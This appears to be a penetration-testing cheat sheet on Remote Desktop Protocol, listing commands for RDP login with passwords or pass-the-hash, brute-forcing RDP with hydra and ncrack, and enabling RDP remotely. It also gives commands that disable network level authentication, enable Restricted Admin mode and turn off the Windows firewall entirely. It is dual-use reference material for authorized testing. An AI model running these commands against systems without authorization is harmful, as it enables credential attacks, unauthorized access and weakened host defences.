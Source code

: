 ## Remote desktop access
- `xfreerdp /u:[domain]\[username] /p:[password] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `xfreerdp /u:[domain]\[username] /pth:[hash] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `rdesktop -d [domain] -u [username] -p [password] [host]`

### Brute Force
- `hydra -l [username] -P [wordlist] -s [port] rdp://[host]`
- `ncrack -vv --user Administrator -P /root/passwords.txt rdp://10.10.10.10`

### Enable RDP
- `PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f`
- OR
- `PS C:\> reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fctions /t REG_DWORD /d 0`
- `PS C:\> netsh firewall set service remoteadmin enable`
- `PS C:\> netsh firewall set service remotedesktop enable`

### Enable RDP Additional Option
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f`
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f`
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- `netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`
OR
- `netsh advfirewall set allprofiles state off`
- `sc start TermService`

#### Alternative
- `C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0`
- `kali@user$ netexec 10.10.10.10 -u username -H hashtext -M rdp -o ACTION=enable`

#### CredSSP erros
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f`

#### Disable NLA
- `PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
- `PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
